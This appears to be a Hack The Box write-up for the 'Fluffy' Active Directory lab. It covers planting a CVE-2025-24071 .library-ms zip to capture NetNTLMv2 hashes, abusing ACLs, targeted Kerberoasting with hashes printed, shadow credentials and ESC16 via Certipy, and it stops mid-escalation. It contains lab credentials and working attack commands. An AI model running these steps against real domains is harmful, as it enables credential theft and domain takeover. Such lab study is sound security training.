








This box is rated easy difficulty on HTB. It involves us grabbing a PDF from an available SMB share that hints at unpatched CVEs on the Domain Controller. Using one to create a Zip archive containing a malicious `.library-ms` file inside that points towards an attacker-owned SMB server grants us a user's NetNTLMv2 hash. After cracking that, we add ourselves to the Service Accounts group, which let's us add shadow credentials against the CA_SVC account. This privileged account has enrollment rights for AD CS which allows us to perform ESC16 in order to escalate privileges to Administrator.

## Host Scanning
I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP returns the typical AD ports.

```
$ sudo nmap -sCV 10.129.232.88 -oN fullscan-tcp

Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-24 01:04 -0400
Nmap scan report for 10.129.232.88
Host is up (0.054s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-04-24 12:04:33Z)
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-04-24T12:05:55+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-04-24T12:05:55+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
|_ssl-date: 2026-04-24T12:05:55+00:00; +7h00m00s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-04-24T12:05:55+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s
| smb2-time: 
|   date: 2026-04-24T12:05:16
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 94.05 seconds
```

Looks like a Windows machine with Active Directory components installed on it, more specifically a Domain Controller. LDAP is leaking the Fully Qualified Domain Name of `DC01.fluffy.htb`, which I add to my `/etc/hosts` file. There are no web services present, so I'll focus mainly on SMB and LDAP to gather information initially.

## Service Enumeration
This is an assumed breach scenario, meaning we start out with user credentials on the domain. Using these to list SMB shares reveals that we have write and read permissions to the non-standard IT share.



### SMB Share PDF
Connecting to it with SMBClient shows files pertaining to KeePass and a binary named "everything". Along with it is a PDF that outlines the upgrade process for domain machines, focusing on patches for the latest applicable CVEs.



### CVE-2025–24071 Exploit
Looking through the list of recent vulnerabilities, the second one stands out most because we have access to write files on an SMB share. [CVE-2025–24071](https://nvd.nist.gov/vuln/detail/CVE-2025-24071) is a Windows vulnerability where specially crafted .library-ms files can force a victim's system to automatically authenticate to an attacker-controlled SMB server. This causes the victim to unknowingly send a NetNTLMv2 challenge-response, which the attacker can capture. The stolen hash can then be relayed or cracked to gain unauthorized access or escalate privileges.

If you're unfamiliar as to why this happens - When a Windows system accesses an SMB share, it automatically attempts to authenticate using NTLM if no Kerberos ticket is available. As part of this process, it performs a challenge-response exchange, sending a NetNTLMv2 hash to prove the user's identity without transmitting the plaintext password. This behavior is automatic and designed for seamless network resource access, which is why attackers can abuse it for hash capture.

Exploiting this essentially requires us to create a malicious .library-ms file that points towards our attacking IP, while we stand up and SMB server to capture the incoming NetNTLMv2 hash. As to not reinvent the wheel, I will be using [this PoC](https://www.exploit-db.com/exploits/52310) from Exploit-DB to generate a Zip archive containing our malicious file and upload it to the IT share over SMB. This also relies on the fact that someone will be checking the share and open our archive.

```
$ python3 exploit.py -i 10.10.14.243 -n safe
[*] Generating malicious .library-ms file...
[+] Created ZIP: output/safe.zip
[-] Removed intermediate .library-ms file
[!] Done. Send ZIP to victim and listen for NTLM hash on your SMB server.

-------------------------------------------------------------------------

$ smbclient //DC01.fluffy.htb/IT -U 'j.fleischman'
Password for [WORKGROUP\j.fleischman]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Apr 24 08:13:20 2026
  ..                                  D        0  Fri Apr 24 08:13:20 2026
  Everything-1.4.1.1026.x64           D        0  Fri Apr 18 11:08:44 2025
  Everything-1.4.1.1026.x64.zip       A  1827464  Fri Apr 18 11:04:05 2025
  KeePass-2.58                        D        0  Fri Apr 18 11:08:38 2025
  KeePass-2.58.zip                    A  3225346  Fri Apr 18 11:03:17 2025
  Upgrade_Notice.pdf                  A   169963  Sat May 17 10:31:07 2025

                5842943 blocks of size 4096. 1684240 blocks available
smb: \> put safe.zip 
putting file safe.zip as \safe.zip (1.9 kB/s) (average 1.9 kB/s)
smb: \> quit
```

We'll also need to configure an SMB server to grab the hash, so I'll use Responder for its ease of use and wide range of capabilities. After waiting a bit, we capture an NTLMv2 hash for the user _p.agila_, who is also the author of that Upgrade_Notice.pdf file.



Sending that over to Hashcat or JohnTheRipper will recover the plaintext password which gives us credentials for her account.



## Abusing ACLs
Heading back to BloodHound and checking for outbound object control shows that they are apart of the Service Managers group, meaning we have _GenericAll_ permissions over the Service Accounts group. 



It seems that anyone in this group has _GenericWrite_ over the CA, LDAP, and WINRM service accounts. The presence of that _CA_SVC_ account reveals that Active Directory Certificate Services is installed on this domain, which is a common place to escalate privileges if misconfigured.



### Adding Ourselves to Service Accts
First, I'll use Samba's net tool in order to add ourselves to the Service Accounts group.

```
$ net rpc group addmem 'Service Accounts' 'p.agila' -U 'fluffy.htb'/'p.agila'%'[REDACTED]' -S 'DC01.fluffy.htb'
```

Next, I want to take over any of these accounts by abusing our _GenericWrite_ permissions. We have two main routes to go about here:
**Shadow credentials:**
- Abuse the msDS-KeyCredentialLink attribute to add an attacker-controlled key to a target account, allowing certificate-based authentication as that user. This lets an attacker obtain a TGT without knowing the password and impersonate the account. With _GenericWrite_, an attacker can modify this attribute on a target object, enabling them to plant their own key and take over the account.

**Targeted Kerberoasting:**
- Involves assigning a Service Principal Name (SPN) to a user account so a Kerberos service ticket can be requested and cracked offline. This works even if the account didn't originally have an SPN. With _GenericWrite_, an attacker can set or modify the SPN on a target account, making it Kerberoastable and exposing its password hash for offline cracking.

### Failed Targeted Kerberoasting
I start with the ladder option as it's a bit easier and requires less meddling with Kerberos ticketing. Before we start attacking these accounts, we must sync our machines time with the Domain Controller's to prevent any clock skew errors that may arise. VMWare likes to override my time configurations, so I usually just stop both related daemons whenever doing these types of exploits.

```
--Stopping my machine's timsyncd processes--
$ sudo systemctl stop systemd-timesyncd
$ sudo systemctl disable systemd-timesyncd
$ sudo systemctl stop chronyd 2>/dev/null
$ sudo systemctl disable chronyd 2>/dev/null

--Set Clock skew to match the DC's--
$ sudo rdate -n fluffy.htb
```

To carry out this attack, I use ShutdownRepo's [targetedKerberoast.py](https://github.com/ShutdownRepo/targetedKerberoast) script to capture the service account NTLM hashes.

```
$ python3 -m venv venv

$ source venv/bin/activate

$ pip3 install -r requirements.txt

$ python targetedKerberoast.py -v -d 'fluffy.htb' -u 'p.agila' -p '[REDACTED]'
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (ca_svc)
$krb5tgs$23$*ca_svc$FLUFFY.HTB$fluffy.htb/ca_svc*$72ddb11bdc0070f34a215141d1aae554$a16ec84f9f3badce324c51da9f5695013a220090a6cb8962bd5680de67048240904879ead6ff10298e17aecceaaf91cd410175f4a790747567f4c2fc715ffd8a0fdd0f8861a618418bdc67eb7f54588422bf7053575dc9ae1ed3b4bba403b59e421493d6ec14b83de4a7d4c1d0a5ddac0b120a5bfd933b4cd35da26156f35e880b02a643881bbc57158868308f7804e8a1fea1dd17c4e4f5f7532f5919ccdf6766aa0fffd04e3578aed90583afe1a848b4019452a84dccedba255dd0873cb18a59cdc7e33ba2d6be07d8ae2399321e026b2b449efe758b356ce4d35487cf09b2a5c0b951ef6d77011bfa152877ab9a7b459b07b01229b35be28621c5f28a4767ed8158baca1453cd3b1c7e2a0a19e1ada864f94ef5fa6ebd2c82a3eadbb86a2bb8fd8d67b6aba4df4ed5c7d3a2553e390a93a8b1f100b7ddc43917a6ae161238fcc8dc2e1a77b7e5ad98e226a9b894db347251d8abcc84ef543a442344297d1580f0c8398466ebd5d43ad7cfcb6aaa594608c4944aa4eaef70cfb1eeea1ddc9551b3bd97393afd9eb3a3bb8df826b9d9be25c9f7b78220b135b438d759d749fa1d2b577c3aa16ac60091f5086613d3868b41307f93400b5b03a5ed86a2e0d2bcb497410f9ee6cfb79c6e5432c92a11e9bf7054c3a37d98db6bf10421a36c575a74e318283414c85cfc7cc655d1f498f4ea5aa91a7811a604823b54e49ca7ad0132b5756d7731d0d97d8e6d7c68041af657037c0dada130a40dcf01cfffe9e3ac9ebb20d4975d9552be05fad8e752f12120f318c3f0d2a555df5a9bfab7937eae1e6839deda7560db0b6ae8d82c7832b1e0c605149f3f86526032c925d0ee1c89ea56802f475a0dc8fec70af33f46b3fa1740d3cc17b7e824651059f74a2947585607962de1f1b0bf45cdc0a95d516cc0ffb3db5acfe09da32409fb44ca8b7c3b76fb13519d9e4b6d21b81565994ead578352d8d563160358c81523a6dc343da852589cd29b8ea5a60143348b5055a69d9b8725a1be40312e6368d22098d23285adc90255259bb03909941831c29f0613adcfc2158ec6d269c8b158a0a4781b75c9b0c14fa26c67ca20c85ac7f1b6799815fc8299ffd5d35ad7202bcdc28506235445cdc4c1b4f8cd750d152fe53c3bb17831d8907c7f005783875671416567f7fcbcd2440ce199b5bf643d8c0899aef4f074800ae8aa8f1bbeb3dbaa1d0aa4cd78434e0627e18fba7c7011f384f6748dbc4dffa447e2ea4453d632a0e983327042ba652470ed82e81d0c1d7e050756c6407516aa6a9d6697801f6bef85a80f099c19c8ced4a6cb50a8e243aec7b255c71b6c48f4175e9e7cabbe0b7bb7ae0230f3ed5d36604c9c7e09a2c7bef049f313f029d38f90ae064d7fe9b472c221310d48782f5c8e706f69b3eae02095a02e8f410902247b32065ec2e948184d23bee51c9a510321ddd28785c3733c5a5c718fd91d1444cb01234fe2f6c69d4ddd9e1f0746
[+] Printing hash for (ldap_svc)
$krb5tgs$23$*ldap_svc$FLUFFY.HTB$fluffy.htb/ldap_svc*$ef624c6d983e30516ca903e061eb42b2$bdc6a604f844ba6e06b086871c77f9aa4f9527d25684a89780e6d2acc2a2abc2c4b436eadf750de78b163efa5cb99115809581841860fd0a7ee550344b0ca521df092a28e352776d64607afe552f71ead7dec979e3ce237fadaab47110ec61a7565f19975a573a22ea9d5d3be5b22d9f3c63e2f76d760bef021c1f9b340e530207a0092461756cfa9bce85700e2e190c3051a5633619457cbb59ad5f01068f25a4434ebd4b754231e6a59ba0f00516e21592f36c9613bc7da038d787c89d851220bd23b0f2d9384681cb73f3e839805e7a625bad03c15b46eccdf113fdd3280002964a3950379a684d386eaac0ec7b9e688b57a36c4cdcc246e8529427c1a96871bff9422bc1049646afaf90f3cf2766792e0886fb535ad1a536ce50cec2771c145fc97adc5575fe1e5b32af91f52b6cc87723eb9712792f825766bf8101f9209ce67c03755638354a2e096c0e19ad5eb430653764c01bad53ae86260f9e12a7db9fba9ae7ba4d954a4aa4d78ae4985e42934ee39a4f40674477766220472ee1a27fa3df8def4219899d21bf38196eec3c35c0f3d7b7c655a696e40d9ab4b7f1817b49fee7d8889de1cd1643ad82ce69046f8415f67fe4cbe6bab1d55cec3e2bb639a71c7c2cd1e59edd848b9e1efedf3195cdab11a8fed87c7da6744eeca18e481909acd315ab4540b76639329102efb044a546644ef9601767eb8eed187964d60068cde5ea94759e0c6163e3995c0f57bbcad925883af32226450e1673fdc3a366f429c2485b683f72f9ac11e9bcd5dde059855014419727feed554a3b84ac1d4e8225e0e2949c02cb43d89020ec2ec8efe0d62a02551d531f1890b6eebfe54c08bc939bff4d8c82719f33fc000642fa5e812b5872dda9508a5c77b1462e7d8dd74e2afb3aaea626249694aed6da8cadbf9974178041977b95856dccde5469f06f26d9ccef0e2398399c4c6c17f9922cd769dfe29b27fa3b36f3e3e80d7ed7bc62daf27569889ff1c8a185bacfc6346631a7bc1a334543e6c8e92cc7a21efa4e48032af286ab255d7a42c670cadbe833300a21bf172db8791fb6b1e827a4b775f9d3fadfe49d149c6ec3ff244364452d1b1ac59f0f1bc23ffa9e40a7c775f46fed08e9555317ed148958a8cbcad08badc5353bd2936702966a90cdd5b0dead2f037de3eaf24c67a780b49da53bbf8a61e1a9e6c38e5b123606aa9cecceadf244f78438e3d0009f562ccedb4db52e06ca7d65c775c04b1d3fcc1149e6998ec83172322837c38b655f15e0cf77e5785830015b21ae1249287d6a6584f17439bc8b705dd829eceb348f9eb8bd575c7980724a8c34e389454d33e93fb6fc5c05957c78a1defbeab338e6d6973009aecf29b993e978e586ded5023cb1e4a9ec89331e9aa2bb49a36373cf2fb7194e0e80550a38a770158b475d564ae657f25a601003db41c07c77c8fcd81c537fd77ec4796940010e32d462716f7dac4f96d1715732ac
[+] Printing hash for (winrm_svc)
$krb5tgs$23$*winrm_svc$FLUFFY.HTB$fluffy.htb/winrm_svc*$070a879061ab7cede443c74cf6e0c426$6dce4d3966400aa6ec2dca9a74835df2568e385a51ac438c3de281fbedf3e4bfa6045d7ff6f78009009bfe1f45771413dd21415b8a97740714456c91aff4525eca33de80172350f087c56c7c8323eb13e71ff6dc796d59e317fb43d0663ccdc0d50a8c04c4f64feff243bcf5849ae5b3983b36181589bd6b07a3d584543ee48731d0e96b37dc7144ecd8240bb6640a1028b9b052e1d7112e95294937cbe93643ca92b330ae9221ef39a08e5b9cda7acba1b70a9599cf4c57dd2aeff28b9bfec72842cc57084dfbb3e7b09bf943697465cd27a9abb359c0de4e74dc76f1251a70be4f7f5fb5d298727c0785d650c8c8867a7cd8e22b6dcd69b03c7d126ed8e782031458c4a36d6ef4cdb15a2e6cb57247f52ed77641496bd1bd78065cd3a92ccda33ea877b41b23419a1e9bf50f0a8240cb29e1320e3c3dd086ee414669d0e74f7cb42aee96a13725c2d22088cab7f907e2fd5386f4dc95a9cc6ee813cc51da9be6059274898d0b5cb153f184e596720deb1a7c5c552c7d3dbd7c72f95753d609fdf95d3a4a10d06ebeca693bf2233ee38c4ed043ea80b16d882d822209249905850becae674d5780f596ed5422121be8df0b5e844a404a2f6ff998d4bae51b4f1cf6eb9703619983aa3eb30dd26c7c95602d78d18c5913bd22ad7a53989c06ca1570cfd4ad1a20390905cf80fe1a1634e31612619da82deb81ad4207d7d11b4cb6d2b916de0082ef99d84234de53f45e8457108cde427ef1b74875b2e2532c8e97893f3b2826aa20751d5886ebbc1ad41407907ee9c15a11b2c94bb2b6cda169366af63c090add2626e05e797b66a5804581cb59a92d065dc763d4f6db908d50a61f5a06b0c63a79009b04622b219cec3b5bac1355471bc84b1b4b4abd74b88e0df74e4633f69d6ddfd1964c7e85a494d5438da5e9e5755973136933a90aa86b197f5245a4079c101e85275ccb9ac538a69c919640812811ea56492bb3615e4430265ba4610ab5e3e462fe07149c7fa6ac2b7d1d8a682d616289a6428888eca03a3be9c8504beb419ab16230e30e836329a72b41791f89eee4cc4eff9f8f78855a7870212829285a54da096960b143dce6cade0a163e9b7c8621c71e7cf5f810e96c44e1acca2a9ec0bfacf0eb858ac22776cee04030c19a81b0709acb6751469f027d8821f897e29bc81b9d0ee8af607e969a723457a983331efa3b05bf7c15c6fdb52fe5af7d980a5995bccbcb75093ad52b0adf92667d86d536c6088c2d6c6e66bb7a96d79128ac6116c0c1ffbfbaee48e524a4f36b399c3e781043b88c3b9ae965a162a651f1bdfbd8420103589cb496f71e4f10a7bb168971ca96f51323c4ce771ef7fc34ea204e91b52dcf26916728567ee9e510997c53beacf450392b97b5054e0eecf3d6a5adeb498c9e1074a6e8924d05be99e49f25e567ab7b0b4ac90171111abd3a0d1429cae8aec8c4cf2b4c391894e3eb85c96df4fc662d42aabff5
```

### Shadow Credentials
Unfortunately, none of these crack which means we must add a shadow credential to gain access to each account. I'll use [Certipy-AD's](https://github.com/ly4k/Certipy) shadow module in order to speed things up here.

```
$ certipy shadow auto -u p.agila@fluffy.htb -p prometheusx-303 -account winrm_svc
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'winrm_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'ce14ad2d-fb9d-1e9b-9fdb-a3aac3abbebd'
[*] Adding Key Credential with device ID 'ce14ad2d-fb9d-1e9b-9fdb-a3aac3abbebd' to the Key Credentials for 'winrm_svc'
[*] Successfully added Key Credential with device ID 'ce14ad2d-fb9d-1e9b-9fdb-a3aac3abbebd' to the Key Credentials for 'winrm_svc'
[*] Authenticating as 'winrm_svc' with the certificate
[*] Using principal: winrm_svc@fluffy.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'winrm_svc.ccache'
[*] Trying to retrieve NT hash for 'winrm_svc'
[*] Restoring the old Key Credentials for 'winrm_svc'
[*] Successfully restored the old Key Credentials for 'winrm_svc'
[*] NT hash for 'winrm_svc': [REDACTED]

------------------------------------------------------------------------------
$ certipy shadow auto -u p.agila@fluffy.htb -p prometheusx-303 -account ca_svc
[...]
[*] NT hash for 'ca_svc': [REDACTED]
```

That will automatically add a shadow credential for each account and attempt to obtain the NTLM hash. We can use those in a Pass-The-Hash attack over WinRM to get a shell as the _WINRM_SVC_ account and grab the user flag under their Desktop folder.



## Privilege Escalation
Using the _CA_SVC_ account to search for vulnerable AD CS templates reveals that 

```
$ certipy-ad find -u ca_svc -hashes [REDACTED] -target dc01.fluffy.htb -stdout -vulnerable 
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: All nameservers failed to answer the query dc01.fluffy.htb. IN A: Server Do53:192.168.172.2@53 answered SERVFAIL
[!] Use -debug to print a stacktrace
[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 14 issuance policies
[*] Found 0 OIDs linked to templates
[!] DNS resolution failed: All nameservers failed to answer the query DC01.fluffy.htb. IN A: Server Do53:192.168.172.2@53 answered SERVFAIL
[!] Use -debug to print a stacktrace
[*] Retrieving CA configuration for 'fluffy-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'fluffy-DC01-CA'
[*] Checking web enrollment for CA 'fluffy-DC01-CA' @ 'DC01.fluffy.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : fluffy-DC01-CA
    DNS Name                            : DC01.fluffy.htb
    Certificate Subject                 : CN=fluffy-DC01-CA, DC=fluffy, DC=htb
    Certificate Serial Number           : 3670C4A715B864BB497F7CD72119B6F5
    Certificate Validity Start          : 2025-04-17 16:00:16+00:00
    Certificate Validity End            : 3024-04-17 16:11:16+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Disabled Extensions                 : 1.3.6.1.4.1.311.25.2
    Permissions
      Owner                             : FLUFFY.HTB\Administrators
      Access Rights
        ManageCa                        : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        ManageCertificates              : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        Enroll                          : FLUFFY.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC16                             : Security Extension is disabled.
    [*] Remarks
      ESC16                             : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
Certificate Templates                   : [!] Could not find any certificate templates
```

### ESC16
Towards the end of the output, the tool found that AD CS was vulnerable to ESC16. In case you're unaware of what these are - ESCs (Certificate Service Escalations) are Active Directory Certificate Services misconfigurations that attackers can abuse to obtain unauthorized certificates and escalate privileges in a domain.

ESC16 abuse depends on the domain controller's StrongCertificateBindingEnforcement setting being in compatibility mode (0 or 1). If we have write access to a user (like _GenericWrite_), we can temporarily change their UPN to match a privileged target account.

We then request a client authentication certificate from a vulnerable CA, which issues a cert without the SID binding protection. After restoring the original UPN, we can use that certificate to authenticate as the privileged user and effectively impersonate them.

Seeing as how we have an NTLM hash for the _WINRM_SVC_ account, I'll use authenticate as them and use the _CA_SVC_ account to carry out ESC16, since they have sufficient permissions to do so. I start by updating _CA_SVC_ to have a UPN of administrator, effectively impersonating them.

```
$ certipy-ad account -u winrm_svc@fluffy.htb -hashes 33bd09dcd697600edf6b3a7af4875767 -user ca_svc -upn administrator update
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: All nameservers failed to answer the query FLUFFY.HTB. IN A: Server Do53:192.168.172.2@53 answered SERVFAIL
[!] Use -debug to print a stacktrace
[*] Updating user 'ca_svc':
    userPrincipalName                   : administrator
